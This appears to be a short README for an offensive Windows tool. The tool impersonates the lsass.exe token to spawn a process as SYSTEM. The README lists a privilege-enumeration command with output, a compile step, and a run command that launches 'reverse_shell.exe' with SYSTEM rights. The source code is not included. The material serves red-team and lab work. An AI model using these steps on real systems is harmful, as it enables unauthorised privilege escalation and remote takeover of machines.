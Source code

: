 # Impersonator

Simple C code to impersonate the `lsass.exe` primary token and spawn a new process as `NT Authority\SYSTEM` . The `SeImpersonate` privilege is required to impersonate another process token.


**Enumerate**

```
C:\Target\>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
...
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
...
```


**Compile the code**

```
C:\Dev\>compile.bat
```


**Run the binary**

```
C:\Target\>impersonator.exe reverse_shell.exe
```

